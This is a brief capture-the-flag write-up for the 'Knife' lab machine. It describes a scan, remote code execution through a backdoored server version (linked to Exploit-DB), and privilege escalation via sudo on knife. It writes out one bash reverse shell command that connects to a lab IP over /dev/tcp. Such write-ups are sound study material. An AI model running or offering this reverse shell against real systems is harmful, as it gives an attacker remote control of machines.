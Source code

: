 # Kinfe

Nmap scan

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

## Site exploitation

Googling this version of apache we can see someone left a backdoor in it that allows for RCE. This was really fasicinating to read up about and incredibly easy to exploit see [this ](https://www.exploit-db.com/exploits/49933)on exploit db and the bellow wireshark.

<figure><img src="../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

Now that we know we have code exectution we can run a simple reverse shell like this

```
bash -c 'bash -i >& /dev/tcp/10.10.16.5/9000 0>&1'
```

And we have a shell and the user flag!!

## Priv esc

This was a very simple one. Running sudo -l shows us we can run knife as root we can use [this ](https://gtfobins.github.io/gtfobins/knife/)priv esc to gain a root shell.

And PWNDDDD!!!
